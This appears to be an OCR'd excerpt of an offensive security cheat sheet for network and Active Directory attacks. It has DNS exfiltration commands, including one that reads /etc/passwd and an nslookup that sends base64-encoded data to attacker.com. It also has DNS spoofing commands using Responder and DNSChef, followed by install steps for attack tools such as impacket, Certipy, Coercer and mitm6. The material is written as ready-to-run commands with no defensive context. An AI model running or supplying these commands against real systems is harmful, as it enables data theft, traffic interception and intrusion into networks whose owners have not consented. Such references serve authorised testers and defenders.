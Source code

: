### **🌐 DNS Attacks**

#### **DNS Exfiltration**
```bash
# DNSExfiltrator
python3 dnsexfiltrator.py -d domain.com -f /etc/passwd

# Windows
nslookup $(echo "data" | base64).attacker.com
```

#### **DNS Poisoning**
```bash
# Responder DNS spoofing
responder -I eth0 -A

# DNSChef
dnschef --fakeip=attacker_ip --fakedomains=*.domain.com
```

---

## 🔧 **Essential Tool Installation & Setup**

### **🐧 Advanced Linux Setup**
```bash
# Core Tools
pip3 install impacket crackmapexec ldap3 dnspython requests
go install github.com/ropnop/kerbrute@latest
pip3 install certipy-ad bloodhound neo4j-driver

# Advanced Tools
git clone https://github.com/fortra/impacket.git && cd impacket && pip3 install .
git clone https://github.com/dirkjanm/krbrelayx.git
git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install lsassy netexec
apt install enum4linux smbclient ldap-utils dnsutils

# Specialized Tools
git clone https://github.com/ly4k/Certipy.git
git clone https://github.com/p0dalirius/Coercer.git
git clone https://github.com/eladshamir/Whisker.git
git clone https://github.com/ShutdownRepo/pywhisker.git
git clone https://github.com/dirkjanm/mitm6.git
pip3 install mitm6

# Post-Exploitation
git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install pycryptodome pyasn1 ldap3
```
